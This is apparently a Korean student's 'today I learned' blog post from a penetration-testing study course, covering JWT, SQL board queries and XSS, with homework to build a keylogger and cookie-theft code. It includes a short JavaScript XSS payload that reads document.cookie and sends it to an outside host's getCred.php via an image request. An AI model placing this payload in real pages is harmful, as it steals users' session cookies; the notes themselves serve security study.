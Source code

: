 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq: daily
    priority: 0.5

title: "[TIL] 정리"
excerpt: "모의해킹 취업반 스터디 7기 4주차"

date: 2024-11-07
last_modified_at: 

tags: [TIL]
---
```


모의해킹 7기 4주차 - cicd

쿠키를 조작 못 하게 -> jwt
어썬ijation?
jwt token
hash값을 통해서 무결성 체크를 한다

암행어사의 마두패 같은 느낌

authorization

hmac

로그인 할 때 사용하는 sql 문에 종류가 다양하다
개행은 알겠는데
괄호는 뭐냐
필터링

# xss
공격자가 스크립트를 삽입할 수 있는 공격
피해자의 브라우저에서 공격자가 삽입한 스크립트가 실행된다

# hijack session id
```js
let cookieData = document.cookie;
```

# data send
``` js
const http = new XMLHttpRequest();
const url = 'https://normaltic.com/test.php';

http.open('GET', url);
Http.send();
Http.onreadystatechange = (e) => {
    console.log(Http.responseText);
};
```

# data send: like hacker
``` js
let cookieData = document.cookie;
let attackURL = "https://normaltic.com/getCred.php?cookie=";
new Image().src = attackURL + cookieData;
```

%3d%3d ==
==으로 끝나니까 base64일 가능성이 높겠다 <- ??? 어떤 과정을 거쳐야 이렇게 나오는 거죠???

게시판 구현 -> sql
제목, 내용, 작성자, 작성일, 조회수
게시판 글 작성: insert
게시판 글 리스트 보기: select
게시판 글 내용 읽기: select
게시판 글 수정: update
게시판 글 삭제: delete

게시판 페이징: limit (index) (count)
게시글 제목, 
where title like %var%
 = `grep *var*`

게시글 정렬
order by [column name] [asc/desc]

과제
1. ~~burp suite: ctf 문제 풀이~~ -> 블로그에 올리면 플래그만 감춰서 올려요
2. js
~~문법 (수업 노트)에 적혀져 있는 친구 공부~~
만들어 놓은 로그인 페이지 키로거 만들기
쿠키 탈취 코드 짜기
3. 게시판 구현하기
자료실 익명 게시판
